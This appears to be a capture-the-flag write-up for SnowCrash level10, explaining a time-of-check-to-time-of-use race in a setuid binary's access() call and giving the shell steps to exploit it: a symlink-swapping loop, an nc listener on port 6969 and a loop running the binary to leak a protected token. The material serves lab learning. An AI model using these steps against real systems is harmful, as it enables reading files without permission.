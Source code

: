 # SnowCrash Level10

A simple strings would give us the following :
```
level10@SnowCrash:~$ strings level10
	[...]
	%s file host
	sends file to host if you have access to it
	Connecting to %s:6969 ..
	Unable to connect to host %s
	.*( )*.
	Unable to write banner to host %s
	Connected!
	Sending file ..
	Damn. Unable to open file
	Unable to read from file: %s
	wrote file!
	You don't have access to %s
	[...]
```

So basically the program tries to open a file and then send it.
Let's see functions using gdb.
```
level10@SnowCrash:~$ gdb level10
(gdb) info functions
	[...]
	0x080485e0  access
	[...]
```

After some long searching. I found out that access has a vulnerability.
TLDR: In the time between trying to access() and after. A small window opens to change the file.
It is known as Race Condition.
The way we can do it is as the following.
Have an infinite loop. Have a useless file. Symlink it to another file.
Delete that file and at the same time make a symlink to the token in the home directory.
Do it all over again in the loop.

In another terminal we run the level10 on that symlink we create. and we need to listen on port 6969.
Theorically we change the symlinked file in that brief moment after access so we can read what's on token.
It is known as well as Time To Check Time To Use aka toctou

So chall we ?
```
level10@SnowCrash:~$ touch uselss_file
level10@SnowCrash:~$ touch to_read
level10@SnowCrash:~$ sh exploit.sh(you will find it with this writeup.)
```

Then start listenning on port 6969
```
level10@SnowCrash:~$ nc -lk 6969 >> /tmp/level10/to_read
```

And now an infinite loop for our level10 binary.
```
level10@SnowCrash:~$ while true; do ./level10 /tmp/level10/symlink 127.0.0.1; done
```
